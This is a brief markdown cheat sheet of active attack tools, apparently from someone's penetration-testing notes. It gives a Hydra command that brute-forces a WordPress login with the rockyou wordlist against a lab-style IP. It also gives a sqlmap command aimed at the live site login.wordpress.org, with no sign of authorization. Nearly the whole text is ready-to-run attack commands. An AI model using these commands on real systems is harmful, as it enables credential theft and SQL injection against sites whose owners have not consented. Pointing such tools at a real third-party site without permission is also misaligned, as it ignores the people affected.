 # Active-Sanning
This is a list of tools that will help with attack but may show alerts on IDS as you are sending many requests.

## Brute Force 
May result in IP ban if too many requests are made.
### Hydra
Used to brute force users on websites
```bash
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.118.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Username or passwordis incorrect" -t 35
```
## SQL
### SQLmap
```bash
	sqlmap -u https://login.wordpress.org --forms
```
